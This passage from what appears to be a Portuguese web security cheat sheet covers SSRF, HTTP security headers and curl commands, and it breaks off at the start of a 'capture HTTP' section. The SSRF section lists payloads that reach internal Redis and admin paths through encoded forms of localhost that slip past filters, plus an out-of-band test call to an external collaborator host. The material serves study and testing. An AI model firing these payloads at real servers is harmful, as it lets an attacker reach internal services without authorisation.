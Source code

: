 **5. SSRF (Server-Side Request Forgery)**

Forçar servidor a fazer requisições internas.

```bash
# Payload
http://vulnerable.com/fetch?url=http://localhost:6379/

# Bypass filters
http://127.1/admin
http://[::1]/admin
http://2130706433/admin  # decimal de 127.0.0.1
http://0x7f.0x0.0x0.0x1/admin  # hexadecimal

# Testar SSRF
curl "http://target.com/api?url=http://burpcollaborator.net"
```

#### Headers de Segurança

```http
# Content Security Policy
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'

# HSTS (HTTP Strict Transport Security)
Strict-Transport-Security: max-age=31536000; includeSubDomains

# X-Frame-Options (Clickjacking)
X-Frame-Options: DENY
X-Frame-Options: SAMEORIGIN

# X-Content-Type-Options
X-Content-Type-Options: nosniff

# X-XSS-Protection (deprecated, use CSP)
X-XSS-Protection: 1; mode=block

# Referrer-Policy
Referrer-Policy: strict-origin-when-cross-origin

# Permissions-Policy
Permissions-Policy: geolocation=(), microphone=()
```

#### Comandos de Análise

```bash
# Requisição simples
curl -v http://example.com

# Ver headers
curl -I https://example.com

# Método específico
curl -X POST -d "data=value" http://example.com/api

# Headers customizados
curl -H "Authorization: Bearer TOKEN" https://api.example.com

# Seguir redirects
curl -L http://example.com

# Ignorar certificado SSL (apenas teste!)
curl -k https://self-signed.badssl.com/

# Capturar HTTP
```